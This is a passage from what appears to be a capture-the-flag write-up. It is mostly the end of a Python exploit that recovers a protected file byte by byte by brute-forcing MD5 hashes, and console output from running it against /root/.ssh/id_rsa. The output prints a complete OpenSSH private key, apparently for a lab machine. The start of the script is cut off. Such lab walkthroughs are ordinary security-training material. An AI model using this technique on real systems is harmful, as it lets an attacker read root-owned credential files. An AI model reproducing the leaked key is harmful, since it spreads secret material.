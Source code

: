 ```python
        tmp = prefix + c
        if hashlib.md5(tmp.encode()).hexdigest() == hash:
            return c
    return None
    

def read_file(filename):   
    content = ""
    byte_size = 1
    while True:
        hash = get_hash(filename, byte_size)
        c = brute_force_byte(hash, content)
        if c is None:
            break
        content += c
        byte_size += 1
        print(f"[+] Found: {content}")
    

if __name__ == '__main__':
    read_file(args.filename)
    
```

```console
greg@intentions:/dev/shm$ python3 exp.py -f /root/.ssh/id_rsa
[+] Found: -----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEA5yMuiPaWPr6P0GYiUi5EnqD8QOM9B7gm2lTHwlA7FMw95/wy8JW3
HqEMYrWSNpX2HqbvxnhOBCW/uwKMbFb4LPI+EzR6eHr5vG438EoeGmLFBvhge54WkTvQyd
vk6xqxjypi3PivKnI2Gm+BWzcMi6kHI+NLDUVn7aNthBIg9OyIVwp7LXl3cgUrWM4StvYZ
ZyGpITFR/1KjaCQjLDnshZO7OrM/PLWdyipq2yZtNoB57kvzbPRpXu7ANbM8wV3cyk/OZt
0LZdhfMuJsJsFLhZufADwPVRK1B0oMjcnljhUuVvYJtm8Ig/8fC9ZEcycF69E+nBAiDuUm
kDAhdj0ilD63EbLof4rQmBuYUQPy/KMUwGujCUBQKw3bXdOMs/jq6n8bK7ERcHIEx6uTdw
gE6WlJQhgAp6hT7CiINq34Z2CFd9t2x1o24+JOAQj9JCubRa1fOMFs8OqEBiGQHmOIjmUj
7x17Ygwfhs4O8AQDvjhizWop/7Njg7Xm7ouxzoXdAAAFiJKKGvOSihrzAAAAB3NzaC1yc2
EAAAGBAOcjLoj2lj6+j9BmIlIuRJ6g/EDjPQe4JtpUx8JQOxTMPef8MvCVtx6hDGK1kjaV
9h6m78Z4TgQlv7sCjGxW+CzyPhM0enh6+bxuN/BKHhpixQb4YHueFpE70Mnb5OsasY8qYt
z4rypyNhpvgVs3DIupByPjSw1FZ+2jbYQSIPTsiFcKey15d3IFK1jOErb2GWchqSExUf9S
o2gkIyw57IWTuzqzPzy1ncoqatsmbTaAee5L82z0aV7uwDWzPMFd3MpPzmbdC2XYXzLibC
bBS4WbnwA8D1UStQdKDI3J5Y4VLlb2CbZvCIP/HwvWRHMnBevRPpwQIg7lJpAwIXY9IpQ+
txGy6H+K0JgbmFED8vyjFMBrowlAUCsN213TjLP46up/GyuxEXByBMerk3cIBOlpSUIYAK
eoU+woiDat+GdghXfbdsdaNuPiTgEI/SQrm0WtXzjBbPDqhAYhkB5jiI5lI+8de2IMH4bO
DvAEA744Ys1qKf+zY4O15u6Lsc6F3QAAAAMBAAEAAAGABGD0S8gMhE97LUn3pC7RtUXPky
tRSuqx1VWHu9yyvdWS5g8iToOVLQ/RsP+hFga+jqNmRZBRlz6foWHIByTMcOeKH8/qjD4O
9wM8ho4U5pzD5q2nM3hR4G1g0Q4o8EyrzygQ27OCkZwi/idQhnz/8EsvtWRj/D8G6ME9lo
pHlKdz4fg/tj0UmcGgA4yF3YopSyM5XCv3xac+YFjwHKSgegHyNe3se9BlMJqfz+gfgTz3
8l9LrLiVoKS6JsCvEDe6HGSvyyG9eCg1mQ6J9EkaN2q0uKN35T5siVinK9FtvkNGbCEzFC
PknyAdy792vSIuJrmdKhvRTEUwvntZGXrKtwnf81SX/ZMDRJYqgCQyf5vnUtjKznvohz2R
0i4lakvtXQYC/NNc1QccjTL2NID4nSOhLH2wYzZhKku1vlRmK13HP5BRS0Jus8ScVaYaIS
bEDknHVWHFWndkuQSG2EX9a2auy7oTVCSu7bUXFnottatOxo1atrasNOWcaNkRgdehAAAA
wQDUQfNZuVgdYWS0iJYoyXUNSJAmzFBGxAv3EpKMliTlb/LJlKSCTTttuN7NLHpNWpn92S
pNDghhIYENKoOUUXBgb26gtg1qwzZQGsYy8JLLwgA7g4RF3VD2lGCT377lMD9xv3bhYHPl
lo0L7jaj6PiWKD8Aw0StANo4vOv9bS6cjEUyTl8QM05zTiaFk/UoG3LxoIDT6Vi8wY7hIB
AhDZ6Tm44Mf+XRnBM7AmZqsYh8nw++rhFdr9d39pYaFgok9DcAAADBAO1D0v0/2a2XO4DT
AZdPSERYVIF2W5TH1Atdr37g7i7zrWZxltO5rrAt6DJ79W2laZ9B1Kus1EiXNYkVUZIarx
Yc6Mr5lQ1CSpl0a+OwyJK3Rnh5VZmJQvK0sicM9MyFWGfy7cXCKEFZuinhS4DPBCRSpNBa
zv25Fap0Whav4yqU7BsG2S/mokLGkQ9MVyFpbnrVcnNrwDLd2/whZoENYsiKQSWIFlx8Gd
uCNB7UAUZ7mYFdcDBAJ6uQvPFDdphWPQAAAMEA+WN+VN/TVcfYSYCFiSezNN2xAXCBkkQZ
X7kpdtTupr+gYhL6gv/A5mCOSvv1BLgEl0A05BeWiv7FOkNX5BMR94/NWOlS1Z3T0p+mbj
D7F0nauYkSG+eLwFAd9K/kcdxTuUlwvmPvQiNg70Z142bt1tKN8b3WbttB3sGq39jder8p
nhPKs4TzMzb0gvZGGVZyjqX68coFz3k1nAb5hRS5Q+P6y/XxmdBB4TEHqSQtQ4PoqDj2IP
DVJTokldQ0d4ghAAAAD3Jvb3RAaW50ZW50aW9ucwECAw==
-----END OPENSSH PRIVATE KEY-----
```